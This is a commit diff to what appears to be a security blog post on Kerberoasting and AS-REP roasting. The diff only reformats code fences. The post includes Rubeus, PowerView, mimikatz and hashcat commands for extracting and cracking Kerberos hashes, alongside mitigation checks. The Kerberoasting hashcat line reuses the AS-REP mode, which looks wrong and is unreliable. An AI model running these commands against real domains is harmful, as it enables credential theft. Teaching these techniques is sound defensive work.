

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 1400 px high, scrolled down 2795 px. Shown: the whole window, without its empty margins (247-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

`````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -57,22 +57,30 @@
 
 We can use [Rubeus](https://github.com/GhostPack/Rubeus) on a domain joined machine to find all accounts on that domain where **Do not require Kerberos preauthentication** is set and have it return the corresponding hashes. The **/format** option will directly give us output that is crackable with [hashcat](https://github.com/hashcat/hashcat).
 
-````Rubeus.exe asreproast /format:hashcat````
+```powershell
+Rubeus.exe asreproast /format:hashcat
+```
 
 The AS-REP hash can then be fed into hashcat for offline attacks i.e. with brute-force or wordlist attacks.
 
-````hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt````
+```powershell
+hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
+```
 
 
 ### Mitigation
 
 To check which accounts in you environment have pre-authentication disabled, you can use the following powershell cmdlet, which should be available by default on domain joined machines:
 
-````get-aduser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name````
+```powershell
+get-aduser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
+```
 
 Or you might want to run [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) in your powershell session and issue the Get-DomainUser cmdlet:
 
-````Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose````
+```powershell
+Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
+```
 
 You should make sure that every account is using pre-authentication.
 If for some reason an account needs to have it disabled, it all comes down to password complexity and length.
@@ -101,16 +109,22 @@
 **Rubeus**
 The following attack will try to roast all users on the current domain leaving us with hashes in a crackable format for hashcat:
 
-````Rubeus.exe kerberoast /format:hashcat````
+```powershell
+Rubeus.exe kerberoast /format:hashcat
+```
 
 **PowerView**
 We can get a list of all user accounts that have a **SPN** set:
 
-````Get-DomainUser -SPN````
+```powershell
+Get-DomainUser -SPN
+```
 
 Afterwards we can fetch the hashes like so:
 
-````Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat````
+```powershell
+Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat
+```
 
 **mimikatz**
 mimikatz can be used to extract **STs** from memory. But beforehand you will have to identify **SPNs** and ask for tickets for them.
@@ -123,11 +137,15 @@
 ```
 
 In order to extract the ticket from memory we use mimikatz:
-````kerberos::list /export````
+```powershell
+kerberos::list /export
+```
 
 **hashcat**
 The output from Rubeus and PowerView can directly be feeded into hashcat:
-````hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt````
+```powershell
+hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
+```
 
 
 
`````
